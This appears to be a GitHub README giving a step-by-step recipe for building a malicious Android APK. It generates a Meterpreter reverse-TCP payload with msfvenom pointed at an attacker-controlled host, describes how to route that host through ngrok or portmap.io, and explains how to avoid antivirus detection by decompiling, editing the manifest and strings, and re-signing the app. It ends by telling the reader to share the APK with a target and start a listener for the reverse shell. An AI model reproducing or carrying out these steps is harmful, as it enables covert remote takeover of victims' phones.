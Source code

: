 # Create Malicious APK
==============================

#### One Line code to create a malicious apk using Metasploit Framework
* Create a malicious apk using msfvenom:
* msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.20.99 LPORT=1234 R > juice.apk _//Use port forwarding services like portmap.io or ngrok.com to set as LHOST and forward to your VM_

### Share this apk directly or make changes as follows to bypass antivirus detection

1. Decompile the apk - 
	> apktool d malware.apk

2. Open Android.manifest file. Delete unneccesary and suspicious permissions. Modify Android Manifest file with changed permission and recompile, or don't and continue with more changes to make the malicious application more 'undetectable'

3. Add write_external_storage permission if it is not present

4. Go to RES/VALUES folder and edit strings.xml

5. Change the term "MainActivity" and "appname" in <stringname="appname">

6. Compile the malicious application - 
	> apktool b folderpath/

7. Generate a certificate: keytool -genkey -v -keystore my-release-key.Keystore -alias anyname -keyalg RSA -keysize 2048 -validity 10000

8. Resign apk-
	* In windows, place it in java's java/jdk/bin folder, open admin command prompt there and enter commands:
	* Generate keystore by using command - keytool -genkey -v -keystore <anykeystorname.keystore> -alias sh -keyalg RSA -keysize 2048 -validity 10000
	* Enter any password of 6 digits/characters
	* Answer security questions
	* Key will be created in same bin folder
	* Sign the apk by giving command as - jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore <anykeystorename.keystore <disfolderapk.apk> sh

9. jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore juice.apk anyname

10. zipalign -v 4 juice.apk juice1.apk _//share this apk with target_

11. Run msf/exploit/multi/handler to start a reverse TCP handler. Set payload android/meterpreter/reverse_tcp


# Done